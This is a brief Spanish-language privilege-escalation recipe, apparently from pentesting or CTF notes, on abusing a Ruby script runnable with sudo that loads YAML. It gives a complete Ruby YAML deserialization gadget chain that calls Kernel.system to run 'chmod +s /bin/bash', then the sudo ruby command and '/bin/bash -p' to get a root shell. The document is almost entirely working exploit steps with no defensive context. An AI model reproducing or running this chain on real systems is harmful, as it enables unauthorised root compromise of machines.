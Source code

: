 Si el archivo en el cual tienes permisos tiene las función para leer un yml o puedes editarlo agrega: ==File.read(‘sample.yml’)==

Después agrega esto en el archivo .yml

```yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

```


Ejecuta el archivo,
  ```bash
  
sudo /usr/bin/ruby /directoriodelarchivo
```
Ahora typea

```bash

/bin/bash -p
```